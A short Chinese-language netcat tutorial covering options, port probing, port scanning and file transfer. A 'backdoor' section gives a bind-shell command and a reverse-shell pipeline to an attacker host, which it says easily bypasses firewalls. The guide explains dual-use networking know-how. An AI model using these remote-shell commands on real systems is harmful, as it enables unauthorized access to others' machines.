 # Netcat/Nc命令使用技巧

> netcat网络安全界的“瑞士军刀”，简单实用。可以用来扫描端口，指纹探查，聊天，传输文件，后门等等，常常会有你意想不到的使用方式。

## 1. Netcat的常用选项

```
	-h			擦，记不住参数，就help啊
	-l			监听模式
	-p port		制定本地端口号
	-r			随机本地与远程端口
	-s addr		指定本地地址
	-C			使用CRLF换行方式
	-k			支持多链接 
	-e			绑定执行程序(后门),这个应该是特定版本才有
	-n			制定数字ip
	-v			输出详细信息，-vv更详细
	-w timeout	制定超时
	-z			端口扫描模式
```
	
## 2. 使用实例

### 2.1  连接远程主机端口

```
	test@test:~$ nc -nvv testip 21
	Connection to testip 21 port [tcp/*] succeeded!
	
	220 xxx FTP server ready.
	530 Please login with USER and PASS
```

通过这种方式，可以查看远程主机端口是否开启，甚至能够看到该端口运行的服务,也叫flag识别。也可以通过这种方式验证两台机器之间的通信是否被防火墙阻断。查看对断的端口是否开放。端口探测还是非常实用的。

### 2.2 端口扫描

```
	nc -nvv ip 20-30
```

### 2.3 两台设备之间通信

```
	nc -l 1234 > fname.out
	nc host.example.com 1234 < fname.in
```

两台机器之间可以通信了，那么可以做的事情太多了，一切都是数据，一切都可以传输 。无聊的话，也可以用来了把妹聊天。最好传输文件之前能把数据压缩加密，隐私什么的要注意的。

### 2.3 当后门来玩

```
	#正向连接后门
	target: nc -l -p 2345 -e /bin/sh
	hacker: nc target 2345
	
	#反向连接后门,容易突破防火墙
	hacker:
			nc -l -p 2345
			nc -l -p 2346
	target:	
			nc hacker 2345 | /bin/sh | nc hacker 2346
```

### 2.4 More

1. `nc -p 31337 -w5 host.example.com 80` : 使用本地31137端口连接host.example.com的80端口，5秒超时
1. `nc -u host.example.com 53`: dns探查
1. `nc -x10.2.3.4:8080 -Xconnect host.example.com 80` :使用代理方式连接对方80端口
1. `echo 'i found you' | nc -k -p  >> aha.log`:  有点密罐的意思

